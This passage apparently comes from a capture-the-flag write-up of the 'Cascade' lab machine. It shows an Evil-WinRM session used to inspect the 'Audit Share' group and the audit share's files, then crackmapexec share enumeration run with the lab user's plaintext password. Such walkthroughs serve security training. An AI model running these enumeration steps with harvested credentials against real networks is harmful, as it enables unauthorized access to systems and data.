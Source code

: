 ```
```

That’s not a standard MS Group, so I’ll check it out:

```
*Evil-WinRM* PS C:\shares\audit> net localgroup "Audit Share"
Alias name     Audit Share
Comment        \\Casc-DC1\Audit$

Members
-------------------------------------------------------------------------------
s.smith
The command completed successfully.

```

s.smith is the only user in the group, but the comment is a useful hint to look at this share. There’s a `c:\shares\`, but I don’t have permissions to list the directories in it:

```
*Evil-WinRM* PS C:\shares> ls
Access to the path 'C:\shares' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\shares:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

```

However, I can just go into `Audit` based on the share name in the comment:

```
*Evil-WinRM* PS C:\shares\audit> ls

    Directory: C:\shares\audit

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll

```

I can also access this share from my local box:

```

root@kali# crackmapexec smb -u s.smith -p sT333ve2 --shares 10.10.10.182
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares 
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
```